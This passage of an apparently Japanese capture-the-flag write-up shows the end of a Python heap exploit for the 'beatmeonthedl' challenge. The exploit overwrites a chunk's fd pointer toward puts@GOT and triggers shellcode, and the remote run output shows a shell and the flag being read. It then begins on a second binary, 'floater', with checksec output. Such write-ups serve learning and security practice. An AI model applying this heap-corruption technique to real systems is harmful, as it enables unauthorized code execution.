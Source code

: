 ```python

log.info('overwrite chunk4 via buffer2')
buf = ''
buf += 'A' * buffer_size
buf += p64(0x41)                    # size
buf += p64(addr_puts_got - 0x18)    # fd
update_request(2, buf)

log.info('free buffer4')
delete_request(4)

log.info('trigger shellcode')

r.interactive()
```

    $ ./exploit.py remote
    [+] Opening connection to beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me on port 6969: Done
    [+] login successful!
    [*] alloc 0x38 bytes buffer x5
    [*] free buffer3 and buffer1
    [*] overwrite chunk4 via buffer2
    [*] leak chunk4's bk
    [+] addr_chunk2:    0x17e6060
    [+] addr_heap_base: 0x17e6000
    [*] write shellcode to buffer0
    [*] overwrite chunk4 via buffer2
    [*] free buffer4
    [*] trigger shellcode
    [*] Switching to interactive mode
    $ ls
    beatmeonthedl
    flag
    $ cat flag
    The flag is: 3asy p33zy h3ap hacking!!
    $ 
    [*] Closed connection to beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me port 6969

## floater

x86-64 の ELF.

    $ file floater
    floater: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=303c68e5ee9256abcf9e3d1297eaf1e48e2e72fe, stripped, with debug_info

    $ checksec --file floater 
    [*] '/tmp/floater'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      PIE enabled


[^1]: これの一種かな? [Function Attributes - Using the GNU Compiler Collection (GCC)](https://gcc.gnu.org/onlinedocs/gcc-5.4.0/gcc/Function-Attributes.html)